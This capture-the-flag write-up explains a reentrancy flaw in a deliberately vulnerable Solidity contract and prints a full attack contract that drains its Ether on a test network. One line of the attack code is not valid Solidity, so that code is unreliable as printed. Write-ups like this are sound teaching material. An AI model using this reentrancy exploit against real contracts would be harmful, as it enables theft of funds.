

# Refundable Purchase



# Solution

Like the previous Smart Contract challenge we were provided with the source for a contract. The aim of the challenge was to drain the contract of all its Ether.

```solidity
pragma solidity ^0.4.24;

contract RefundablePurchase {

    event Refund(address, uint256);
    event PurchaseCompleted(address, uint256);

    address owner;

    mapping (address => uint256) public refunds;

    constructor() public payable {
        require(msg.value == 0.5 ether, "Must send 0.5 Ether");
    }

    /** Fallback function, called when contract receives Ether without data
     */
    function () external payable {
        require(refunds[msg.sender] + msg.value > refunds[msg.sender]); // Overflow guard
        refunds[msg.sender] += msg.value;
    }

    /** Refunds sent Ether
     */
    function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
    }

    /** Call this function once you've received your purchased item
     */
    function completePurchase() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        refunds[msg.sender] = 0;
        emit PurchaseCompleted(msg.sender, amount);
    }

    /** Returns balance of this contract
     */
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }

    /** CTF helper function
     *  Used to check if challenge is complete
     */
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

}
```

The vulnerable line can be seen in the ```refund()``` method:

```solidity
function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
}
```

The line below is the key element of the potential exploit:

```solidity
msg.sender.call.value(amount)("");
```

This is where we can exploit this contract. This line sends the refunded Ether to the address to the calling address. However, what if the return address is an Ethereum contract? This will trigger the fallback function of the contract. In Solidity smart contracts any funds send to a contract without any data will be processed by the **fallback** address (if defined).

We can also see that the contract values are updated after the external call with:

```solidity
refunds[msg.sender] = 0;
```

We can use the concept of fallback function on a contract we control to call the refund method again and withdraw more Ether than we have been assigned! We can repeat this as many times are we want to completely drain the contract.

Below is the malicious contract used:

```solidity
pragma solidity ^0.4.24;

import "./challenge2.sol";

contract HackContract {

    RefundablePurchase public refundablePurchase;

    constructor (address _refundablePurchase) payable {
        refundablePurchase = RefundablePurchase(_refundablePurchase);
    }

    function start () {
        refundablePurchase.().value(msg.value);
        refundablePurchase.refund();
    }

    function () payable {
    if (refundablePurchase.balance >= msg.value) {
        refundablePurchase.refund();
    }
  }
}
```

The contract is constructed using the address to the target contract defined as ```refundablePurchase```.

The ```start()``` method is where the exploit will begin.

```solidity
function start () {
    refundablePurchase.().value(msg.value);
    refundablePurchase.refund();
}
```

It begins by sending some funds to pass the inital funds to pass the check of the RefundPurchase ```refund()``` function.

```solidity
function refund() public {
    require(refunds[msg.sender] > 0);
    [...]
```

It then calls the ```refund()``` function and starts the loop. The ```refund()``` function sends the refund back to the contract that then triggers the fallback function below:

```solidity
function () payable {
if (refundablePurchase.balance >= msg.value) {
    refundablePurchase.refund();
}
```

The fallback function checks if the contract has any funds left. If there are more funds to steal the method will call the ```refund()``` function again to repeat the process.

This was executed using Remix to upload the contracts to the Ropsten test network. When executing this it drains the contract of all its funds and completes the challenge to provide the flag

```
FLAG: flag{c411_15_n0t_s4f3_w1th_n0_g45_1imit}
```